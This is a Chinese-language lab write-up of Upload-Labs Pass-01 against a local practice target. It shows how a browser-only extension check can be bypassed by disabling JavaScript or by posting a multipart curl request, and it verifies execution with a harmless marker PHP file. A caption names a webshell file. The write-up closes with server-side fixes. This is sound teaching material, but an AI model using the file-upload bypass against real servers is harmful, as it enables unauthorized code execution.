



Upload-Labs Pass-01：前端扩展名校验绕过
本文记录本机授权靶场 http://127.0.0.1:8080/Pass-01/ 的解题过程。关卡目标是向服务器上传一个可执行的 PHP 文件，并确认上传目录允许脚本解析。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-01 |
| 漏洞类型 | 客户端文件类型校验绕过 |
| 入口 | /Pass-01/index.php |
| 验证目标 | 上传 PHP 文件并访问执行 |
二、功能观察
页面要求选择一张图片上传。直接选择 PHP 文件时，浏览器会提示扩展名不在白名单内；这说明表单提交前存在校验。

查看页面源码，可以看到表单通过 onsubmit="return checkFile()" 调用 JavaScript 校验函数。函数只提取最后一个点之后的扩展名，并检查它是否属于 .jpg、.png 或 .gif：
function checkFile() {
var file = document.getElementsByName('upload_file')[0].value;
var allow_ext = ".jpg|.png|.gif";
var ext_name = file.substring(file.lastIndexOf("."));
if (allow_ext.indexOf(ext_name) == -1) {
alert("该文件不允许上传");
return false;
}
}三、根因分析
关键问题是校验发生在浏览器中，而浏览器代码完全由请求方控制。用户可以关闭该站点的 JavaScript、修改校验函数，或者绕过表单直接发送 HTTP 请求。只要服务端不再验证，文件就能进入后端保存流程。
检查关卡 PHP 源码后，后端直接使用客户端提交的原始文件名，并将其移动到上传目录：
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name'];
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
}本关的 UPLOAD_PATH 是 ../upload。上传目录能够通过 Web 访问，且其中的 .php 文件会交由 PHP 解析。因此，“前端只允许图片”和“后端接受原始文件名”共同形成了任意 PHP 文件上传。
四、绕过与上传
方法一：禁用站点 JavaScript
- 为
127.0.0.1:8080单独关闭 JavaScript。前端校验函数不会执行，表单仍可正常提交。 - 选择 PHP 文件并点击“上传”。
- 检查页面返回的图片地址，确认文件已经写入服务器。

checkFile()。上传后在开发者工具中可以看到，页面生成的图片节点指向服务器上的 PHP 路径。由于 PHP 不会返回图片内容，浏览器把它当作损坏图片显示，但路径本身已经证明上传成功。

src="../upload/一句话木马.php" 表明扩展名被原样保留。方法二：直接发送 multipart 请求
创建只输出固定标记的 safe-marker.php。该文件不读取参数，也不执行系统命令：
<?php echo "SAFE_MARKER_OK"; ?>不经过浏览器表单，直接向关卡提交文件。请求中的 type=image/png 只是用于模拟图片请求，本关后端并不校验这个字段：
curl -sS \
-F "upload_file=@safe-marker.php;filename=safe-marker.php;type=image/png" \
-F "submit=上传" \
http://127.0.0.1:8080/Pass-01/index.php响应中返回实际的保存路径：
src="../upload/safe-marker.php"五、执行验证
访问上传文件：
curl -sS http://127.0.0.1:8080/upload/safe-marker.php返回结果：
SAFE_MARKER_OK六、影响与修复
任意文件上传一旦与可执行脚本扩展名、可访问的上传目录和脚本解析权限组合，就可能进一步导致服务器代码执行、敏感文件读取、持久化或横向移动。
- 服务端必须重新执行扩展名白名单校验，不能依赖前端 JavaScript。
- 使用
finfo_file()或图像解码函数检查真实类型，不信任请求中的Content-Type。 - 由服务端生成随机文件名，并根据验证结果强制设置安全扩展名。
- 将上传文件移出 Web 根目录，或关闭上传目录中的脚本执行权限。
- 限制文件大小、权限和保存路径，并对图片重新编码以去除多余内容。
七、复盘
Pass-01 的检查对象不是某个复杂 Payload，而是信任边界：扩展名限制只存在于客户端，后端却直接信任用户提供的文件名。验证时先确认“文件是否落盘”，再通过无害标记确认“服务端是否解析”，两个结论分开记录，才能避免把损坏图片误判为代码执行成功。